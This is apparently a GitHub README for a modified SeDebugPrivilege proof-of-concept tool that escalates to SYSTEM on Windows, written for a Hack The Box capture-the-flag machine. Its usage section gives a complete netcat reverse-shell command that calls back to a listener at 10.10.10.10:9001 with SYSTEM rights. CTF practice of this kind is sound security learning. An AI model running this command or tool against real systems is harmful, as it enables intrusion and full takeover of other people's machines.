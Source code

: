# README.md

**# SeDebugPrivilegePoC** 

This project is a modification of the original code from [daem0nc0re's PrivFu repository](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC), specifically the SeDebugPrivilege Proof of Concept (PoC).

- Reference:
For more information on the context and background of this type of privilege escalation, visit the [HackTricks book section on Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#rce).
- Scenario:
In a Capture The Flag (CTF) challenge, specifically the POV HTB, I encountered a scenario where I lacked an interactive shell and could only execute cmd for the winlogon process ID (PID). This limitation prompted a modification to the original script, enabling the inclusion of command arguments.
- Usage:
To use this modified script, the syntax is as follows:
    
    ```java
    .\SeDebugPrivilegePoC.exe "C:\Users\username\Documents\nc.exe 10.10.10.10 9001 -e C:\Windows\system32\cmd.exe"
    ```
    

Executing the above command allows for a reverse shell to be established on the specified listener, running under the NT Authority\system context.

![Untitled](README/Untitled.png)

![Untitled](README/Untitled%201.png)
